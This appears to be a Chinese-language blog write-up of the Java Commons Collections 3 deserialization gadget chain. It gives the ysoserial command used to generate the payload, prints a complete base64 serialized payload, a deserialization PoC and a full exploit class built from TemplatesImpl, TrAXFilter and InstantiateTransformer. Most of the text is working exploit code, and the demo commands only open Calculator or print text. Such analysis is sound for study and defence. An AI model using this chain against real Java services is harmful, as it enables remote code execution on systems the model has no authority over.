


需要导入
x <dependencies> <dependency> <groupId>commons-collections</groupId> <artifactId>commons-collections</artifactId> <version>3.1</version> </dependency> <dependency> <groupId>org.javassist</groupId> <artifactId>javassist</artifactId> <version>3.25.0-GA</version> </dependency> <dependency> <groupId>org.mozilla</groupId> <artifactId>rhino</artifactId> <version>1.7.11</version> </dependency> </dependencies>
利用ysoserial生成payload：
xxxxxxxxxxjava -jar ysoserial-0.0.6-SNAPSHOT-BETA-all.jar CommonsCollections3 'open /System/Applications/Calculator.app' |base64得到
xxxxxxxxxxrO0ABXNyADJzdW4ucmVmbGVjdC5hbm5vdGF0aW9uLkFubm90YXRpb25JbnZvY2F0aW9uSGFuZGxlclXK9Q8Vy36lAgACTAAMbWVtYmVyVmFsdWVzdAAPTGphdmEvdXRpbC9NYXA7TAAEdHlwZXQAEUxqYXZhL2xhbmcvQ2xhc3M7eHBzfQAAAAEADWphdmEudXRpbC5NYXB4cgAXamF2YS5sYW5nLnJlZmxlY3QuUHJveHnhJ9ogzBBDywIAAUwAAWh0ACVMamF2YS9sYW5nL3JlZmxlY3QvSW52b2NhdGlvbkhhbmRsZXI7eHBzcQB+AABzcgAqb3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLm1hcC5MYXp5TWFwbuWUgp55EJQDAAFMAAdmYWN0b3J5dAAsTG9yZy9hcGFjaGUvY29tbW9ucy9jb2xsZWN0aW9ucy9UcmFuc2Zvcm1lcjt4cHNyADpvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMuZnVuY3RvcnMuQ2hhaW5lZFRyYW5zZm9ybWVyMMeX7Ch6lwQCAAFbAA1pVHJhbnNmb3JtZXJzdAAtW0xvcmcvYXBhY2hlL2NvbW1vbnMvY29sbGVjdGlvbnMvVHJhbnNmb3JtZXI7eHB1cgAtW0xvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMuVHJhbnNmb3JtZXI7vVYq8dg0GJkCAAB4cAAAAAJzcgA7b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmZ1bmN0b3JzLkNvbnN0YW50VHJhbnNmb3JtZXJYdpARQQKxlAIAAUwACWlDb25zdGFudHQAEkxqYXZhL2xhbmcvT2JqZWN0O3hwdnIAN2NvbS5zdW4ub3JnLmFwYWNoZS54YWxhbi5pbnRlcm5hbC54c2x0Yy50cmF4LlRyQVhGaWx0ZXIAAAAAAAAAAAAAAHhwc3IAPm9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5mdW5jdG9ycy5JbnN0YW50aWF0ZVRyYW5zZm9ybWVyNIv0f6SG0DsCAAJbAAVpQXJnc3QAE1tMamF2YS9sYW5nL09iamVjdDtbAAtpUGFyYW1UeXBlc3QAEltMamF2YS9sYW5nL0NsYXNzO3hwdXIAE1tMamF2YS5sYW5nLk9iamVjdDuQzlifEHMpbAIAAHhwAAAAAXNyADpjb20uc3VuLm9yZy5hcGFjaGUueGFsYW4uaW50ZXJuYWwueHNsdGMudHJheC5UZW1wbGF0ZXNJbXBsCVdPwW6sqzMDAAZJAA1faW5kZW50TnVtYmVySQAOX3RyYW5zbGV0SW5kZXhbAApfYnl0ZWNvZGVzdAADW1tCWwAGX2NsYXNzcQB+ABhMAAVfbmFtZXQAEkxqYXZhL2xhbmcvU3RyaW5nO0wAEV9vdXRwdXRQcm9wZXJ0aWVzdAAWTGphdmEvdXRpbC9Qcm9wZXJ0aWVzO3hwAAAAAP////91cgADW1tCS/0ZFWdn2zcCAAB4cAAAAAJ1cgACW0Ks8xf4BghU4AIAAHhwAAAGwMr+ur4AAAAyADkKAAMAIgcANwcAJQcAJgEAEHNlcmlhbFZlcnNpb25VSUQBAAFKAQANQ29uc3RhbnRWYWx1ZQWtIJPzkd3vPgEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQATU3R1YlRyYW5zbGV0UGF5bG9hZAEADElubmVyQ2xhc3NlcwEANUx5c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzJFN0dWJUcmFuc2xldFBheWxvYWQ7AQAJdHJhbnNmb3JtAQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTsBAAhoYW5kbGVycwEAQltMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEACkV4Y2VwdGlvbnMHACcBAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIaXRlcmF0b3IBADVMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yOwEAB2hhbmRsZXIBAEFMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEAClNvdXJjZUZpbGUBAAxHYWRnZXRzLmphdmEMAAoACwcAKAEAM3lzb3NlcmlhbC9wYXlsb2Fkcy91dGlsL0dhZGdldHMkU3R1YlRyYW5zbGV0UGF5bG9hZAEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQBABRqYXZhL2lvL1NlcmlhbGl6YWJsZQEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAH3lzb3NlcmlhbC9wYXlsb2Fkcy91dGlsL0dhZGdldHMBAAg8Y2xpbml0PgEAEWphdmEvbGFuZy9SdW50aW1lBwAqAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwwALAAtCgArAC4BAChvcGVuIC9TeXN0ZW0vQXBwbGljYXRpb25zL0NhbGN1bGF0b3IuYXBwCAAwAQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwwAMgAzCgArADQBAA1TdGFja01hcFRhYmxlAQAfeXNvc2VyaWFsL1B3bmVyMzU0Mjg5NjMxOTYyNDY1MQEAIUx5c29zZXJpYWwvUHduZXIzNTQyODk2MzE5NjI0NjUxOwAhAAIAAwABAAQAAQAaAAUABgABAAcAAAACAAgABAABAAoACwABAAwAAAAvAAEAAQAAAAUqtwABsQAAAAIADQAAAAYAAQAAAC4ADgAAAAwAAQAAAAUADwA4AAAAAQATABQAAgAMAAAAPwAAAAMAAAABsQAAAAIADQAAAAYAAQAAADMADgAAACAAAwAAAAEADwA4AAAAAAABABUAFgABAAAAAQAXABgAAgAZAAAABAABABoAAQATABsAAgAMAAAASQAAAAQAAAABsQAAAAIADQAAAAYAAQAAADcADgAAACoABAAAAAEADwA4AAAAAAABABUAFgABAAAAAQAcAB0AAgAAAAEAHgAfAAMAGQAAAAQAAQAaAAgAKQALAAEADAAAACQAAwACAAAAD6cAAwFMuAAvEjG2ADVXsQAAAAEANgAAAAMAAQMAAgAgAAAAAgAhABEAAAAKAAEAAgAjABAACXVxAH4AIwAAAdTK/rq+AAAAMgAbCgADABUHABcHABgHABkBABBzZXJpYWxWZXJzaW9uVUlEAQABSgEADUNvbnN0YW50VmFsdWUFceZp7jxtRxgBAAY8aW5pdD4BAAMoKVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEdGhpcwEAA0ZvbwEADElubmVyQ2xhc3NlcwEAJUx5c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzJEZvbzsBAApTb3VyY2VGaWxlAQAMR2FkZ2V0cy5qYXZhDAAKAAsHABoBACN5c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzJEZvbwEAEGphdmEvbGFuZy9PYmplY3QBABRqYXZhL2lvL1NlcmlhbGl6YWJsZQEAH3lzb3NlcmlhbC9wYXlsb2Fkcy91dGlsL0dhZGdldHMAIQACAAMAAQAEAAEAGgAFAAYAAQAHAAAAAgAIAAEAAQAKAAsAAQAMAAAALwABAAEAAAAFKrcAAbEAAAACAA0AAAAGAAEAAAA7AA4AAAAMAAEAAAAFAA8AEgAAAAIAEwAAAAIAFAARAAAACgABAAIAFgAQAAlwdAAEUHducnB3AQB4dXIAEltMamF2YS5sYW5nLkNsYXNzO6sW167LzVqZAgAAeHAAAAABdnIAHWphdmF4LnhtbC50cmFuc2Zvcm0uVGVtcGxhdGVzAAAAAAAAAAAAAAB4cHNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9sZHhwP0AAAAAAAAB3CAAAABAAAAAAeHh2cgASamF2YS5sYW5nLk92ZXJyaWRlAAAAAAAAAAAAAAB4cHEAfgAu
这条链只能在jdk7下触发，于是在IDEA中将java版本切回1.7
xxxxxxxxxximport java.io.ByteArrayInputStream;import java.io.IOException;import java.io.ObjectInputStream;import sun.misc.BASE64Decoder;public class Poc { public static void exp(String base64_exp) throws IOException, ClassNotFoundException{ BASE64Decoder decoder = new BASE64Decoder(); byte[] exp = decoder.decodeBuffer(base64_exp); ByteArrayInputStream bytes = new ByteArrayInputStream(exp); ObjectInputStream objectInputStream = new ObjectInputStream(bytes); objectInputStream.readObject(); } public static void main(String[] args) throws IOException, ClassNotFoundException{ String base64_exp = "BASE64_EXP"; Poc p = new Poc(); p.exp(base64_exp); }}成功弹出计算器
利用链差不多算是将CC1与CC2结合了，不过也少许不同
入口点还是sun.reflect.annotation.AnnotationInvocationHandler
同样还是利用动态代理机制来触发invoke()
xxxxxxxxxxthis.memberValues.entrySet()触发invoke()后利用链又是
xxxxxxxxxxthis.memberValues.get(var4); // AnnotationInvocationHandler invoke() , this.memberValues可控->Object value = this.factory.transform(key); // LazyMap get(), this.factory可控->object = this.iTransformers[i].transform(object); // ChainedTransformer transform() this.iTransformers可控
CC1是利用org.apache.commons.collections.functors.InvokerTransformer 其中的 transform()方法进一步来RCE的
而CC3这里换成了org.apache.commons.collections.functors.InstantiateTransformer的transform()方法

作用是获取input类的构造方法，并将其实例化
现在要找到一个可以利用其构造方法的类
这里用到了com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter

有public的单参数构造方法
且其中第64行的newTransformer()看着很熟悉，就是曾在CC2中用过的com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl里的一个public方法，用来调用getTransletInstance()（调用新加载类的newInstance()对其进行实例化）
进一步的触发链为：
xxxxxxxxxx_transformer = (TransformerImpl) templates.newTransformer(); // TrAXfilter TrAXFilter()->transformer = new TransformerImpl(getTransletInstance(), _outputProperties,_indentNumber, _tfactory); // TemplatesImpl newTransformer()看到getTransletInstance()，我们就又能控制_bytecodes来任意代码执行了
CC2中我们构造了触发_bytecodes的exp，这里可以直接复制来用
但是这次入口点不是从任意public方法调用，而是借助TrAXfilter的构造方法
exp part 1:
xxxxxxxxxximport com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerImpl;import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;import javassist.ClassPool;import javassist.CtClass;import java.lang.reflect.Field;public class Exp { public static class StaticBlock { } public static void main(String[] args) throws Exception { // 生成恶意 bytecodes String code = "{System.out.println(\"aaaaaaaaaaa\");}"; ClassPool pool = ClassPool.getDefault(); // 父类必须是 AbstractTranslet CtClass clazz = pool.get(StaticBlock.class.getName()); clazz.setSuperclass(pool.get(Class.forName("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet").getName())); clazz.makeClassInitializer().insertBefore(code); byte[] bytecodes = clazz.toBytecode(); // 实例化类并设置属性 TemplatesImpl templatesimpl = new TemplatesImpl(); Field fieldByteCodes = templatesimpl.getClass().getDeclaredField("_bytecodes"); fieldByteCodes.setAccessible(true); fieldByteCodes.set(templatesimpl, new byte[][]{bytecodes}); Field fieldName = templatesimpl.getClass().getDeclaredField("_name"); fieldName.setAccessible(true); fieldName.set(templatesimpl, "name"); Field fieldTfactory = templatesimpl.getClass().getDeclaredField("_tfactory"); fieldTfactory.setAccessible(true); fieldTfactory.set(templatesimpl, Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl").newInstance()); // 手动构造TrAXFilter的构造方法 new TrAXFilter(templatesimpl); }}
现在要执行到TrAXFilter的构造方法，且传入的参数为templatesimpl就行了
正是要利用org.apache.commons.collections.functors.InstantiateTransformer的transform()方法
exp part 2:
xxxxxxxxxx// 手动构造 InstantiateTransformer 的 transform()InstantiateTransformer it = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templatesimpl});it.transform(TrAXFilter.class);
然后要执行transform()，类似于CC1，复制过来稍作修改就行(用到的是InstantiateTransformer)
exp part 3:
xxxxxxxxxxConstantTransformer constantTransformer = new ConstantTransformer(TrAXFilter.class);Transformer[] transformers = new Transformer[]{constantTransformer,it};ChainedTransformer TransformerChain = new ChainedTransformer(transformers);Map hashMap = new HashMap();Map lazyMap = LazyMap.decorate(hashMap, TransformerChain); Constructor constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);constructor.setAccessible(true);InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Override.class, lazyMap); Object proxy = Proxy.newProxyInstance(invocationHandler.getClass().getClassLoader(), new Class[]{Map.class}, invocationHandler);Constructor constructor2 = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);constructor2.setAccessible(true);Object exp_obj = constructor2.newInstance(Override.class, proxy);ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("exp"));oos.writeObject(exp_obj);
xxxxxxxxxximport com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;import javassist.ClassPool;import javassist.CtClass;import java.io.FileOutputStream;import java.io.ObjectOutputStream;import java.lang.reflect.Constructor;import java.lang.reflect.Field;import java.lang.reflect.InvocationHandler;import java.lang.reflect.Proxy;import java.util.HashMap;import java.util.Map;import org.apache.commons.collections.functors.ChainedTransformer;import org.apache.commons.collections.functors.ConstantTransformer;import org.apache.commons.collections.Transformer;import org.apache.commons.collections.functors.InstantiateTransformer;import javax.xml.transform.Templates;import org.apache.commons.collections.map.LazyMap;public class Exp { public static class StaticBlock { } public static void main(String[] args) throws Exception { // 生成恶意 bytecodes String code = "{System.out.println(\"aaaaaaaaaaa\");}"; ClassPool pool = ClassPool.getDefault(); // 父类必须是 AbstractTranslet CtClass clazz = pool.get(StaticBlock.class.getName()); clazz.setSuperclass(pool.get(Class.forName("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet").getName())); clazz.makeClassInitializer().insertBefore(code); byte[] bytecodes = clazz.toBytecode(); // 实例化类并设置属性 TemplatesImpl templatesimpl = new TemplatesImpl(); Field fieldByteCodes = templatesimpl.getClass().getDeclaredField("_bytecodes"); fieldByteCodes.setAccessible(true); fieldByteCodes.set(templatesimpl, new byte[][]{bytecodes}); Field fieldName = templatesimpl.getClass().getDeclaredField("_name"); fieldName.setAccessible(true); fieldName.set(templatesimpl, "name"); Field fieldTfactory = templatesimpl.getClass().getDeclaredField("_tfactory"); fieldTfactory.setAccessible(true); fieldTfactory.set(templatesimpl, Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl").newInstance()); // CC1 稍作修改 InstantiateTransformer it = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templatesimpl}); ConstantTransformer constantTransformer = new ConstantTransformer(TrAXFilter.class); Transformer[] transformers = new Transformer[]{constantTransformer,it}; ChainedTransformer TransformerChain = new ChainedTransformer(transformers); Map hashMap = new HashMap(); Map lazyMap = LazyMap.decorate(hashMap, TransformerChain); Constructor constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class); constructor.setAccessible(true); InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Override.class, lazyMap); Object proxy = Proxy.newProxyInstance(invocationHandler.getClass().getClassLoader(), new Class[]{Map.class}, invocationHandler); Constructor constructor2 = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class); constructor2.setAccessible(true); Object exp_obj = constructor2.newInstance(Override.class, proxy); ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("exp")); oos.writeObject(exp_obj); }}